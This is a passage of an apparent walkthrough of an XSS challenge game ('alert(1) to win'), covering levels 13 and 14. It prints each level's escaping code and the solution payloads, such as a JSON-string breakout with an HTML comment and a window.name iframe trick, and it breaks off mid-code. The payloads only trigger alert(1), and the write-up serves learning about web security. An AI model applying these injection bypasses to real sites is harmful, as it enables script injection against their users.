 Similar to level 7 but this time the backslash is also escaped so we use a similar vector with a different way to comment the junk out:

Solution:
```lang-javascript line-numbers 
'#';alert(1)<!--
```

It will render:
```lang-javascript line-numbers 
<script>'({"userdata":"';alert(1)<!--"})</script>
```

# Level 13:
```lang-javascript line-numbers 
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // http://print.alf.nu/?text=... just outputs whatever you pass in.
  //
  // Alerting from print.alf.nu won't count; try to trigger the one below.

  s = '<script>' + s + '<\/script>';
  tag.src = 'http://print.alf.nu/?html=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.onload = function() {
    if (youWon) alert(1);
  };
  document.body.appendChild(tag);
}
```

Iframes have a interesting feature: setting the **name** attribute on an iframe sets the **name** property of the iframe's global window object to the value of that string. Now, the interesting part is that it can be done the other way around, so an iframe can define its own **window.name** and the new name will be injected in the parent's global window object if it does not exist already (it cannot overwrite it).
So if we fool the framed site to declare its window.name as "youWon", a **youWon** variable will be setted in the parent global window object and so the "alert(1)" will be popped

Solution:
```lang-javascript line-numbers 
name='youWon'
```

# Level 14:
```lang-javascript line-numbers 
<!DOCTYPE HTML>
function escape(s) {
  function json(s) { return JSON.stringify(s).replace(/\//g, '\\/'); }
  function html(s) { return s.replace(/[<>"&]/g, function(s) {
                        return '&#' + s.charCodeAt(0) + ';'; }); }

  return (
    '<script>' +
      'var url = ' + json(s) + '; // We\'ll use this later ' + '</script>\n\n' +
    '  <!-- for debugging -->\n' +
    '  URL: ' + html(s) + '\n\n' +
    '<!-- then suddenly -->\n' +
    '<script>\n' +
    '  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);\n' +
```